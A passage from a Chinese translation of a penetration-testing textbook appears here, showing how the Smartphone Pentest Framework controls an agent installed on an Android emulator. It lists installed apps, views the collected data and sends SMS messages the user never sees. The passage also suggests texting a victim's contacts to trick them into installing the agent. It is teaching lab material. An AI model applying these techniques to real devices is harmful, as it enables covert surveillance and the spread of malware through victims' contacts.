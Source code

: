 从主菜单中选择**`2`**选项，然后从列表 ❶ 中选择代理。当出现可用代理功能的列表 ❷ 时，选择 `14.) 获取已安装应用列表` ❸。SPF 会询问你如何传递命令，我们将使用 HTTP ❹。（回想一下，代理可以通过 HTTP 和 SMS 与外界通信并接收命令。）

输入**`0`**以返回到上一个菜单，直到到达主菜单。稍等片刻，然后选择 `3.) 查看收集到的信息`，如示例 20-18 所示。

示例 20-18. 查看收集到的数据

```
spf> **3**
View Data Gathered from a Deployed Agent:
Agents or Attacks? **Agents**❶
Available Agents:
    1.) 15555215556
Select an agent to interact with or 0 to return to the previous menu.
spf> **1**❷
Data:
SMS Database:
Contacts:
Picture Location:
Rooted:
Ping Sweep:
File:
Packages: package:com.google.android.location❸
--*snip*--
package:com.android.providers.downloads
package:com.android.server.vpn
```

系统会询问你是否想查看攻击或代理的结果；输入**`Agents`** ❶。选择我们的代理 ❷。设备信息会从数据库中提取，尽管目前我们只有由之前命令收集的已安装应用列表 ❸。（你可以运行额外的信息收集命令来填充更多条目。）

### 远程控制

现在让我们看看如何使用代理来远程控制设备。我们可以告诉设备发送一条不会出现在短信应用的已发送消息中的短信。事实上，用户根本不会知道有消息被发送——这不就是利用信任圈的最佳方式吗？也许我们可以抓取所有用户的联系人，并向他们发送消息，告诉他们应该安装我们的酷炫应用，而这个应用恰好指向 SPF 代理。由于消息来自他们认识的人，用户更可能会安装该代理。

让我们先发送一条示例消息，如示例 20-19 所示。

示例 20-19. 远程控制代理

```
Commands:
--*snip*--
Select a command to perform or 0 to return to the previous menu
spf> **1**❶
Send an SMS message to another phone. Fill in the number, the message to send, and the delivery method(SMS or HTTP).
Number: **15555215558**
Message: **hiya Georgia**
Delivery Method(SMS or HTTP) **SMS**
```

在代理命令菜单中，选择选项 `1.) 发送短信` ❶。当系统要求输入电话号码、消息内容和发送命令的方式时，告诉你的代理将短信发送到 Android 2.1 模拟器。

你的 Android 2.1 模拟器将收到来自 Android 2.2 模拟器的短信，内容是你输入的文本，在两个模拟器上都没有任何迹象表明这不是一条正常的消息。

### 通过移动设备进行跳板攻击
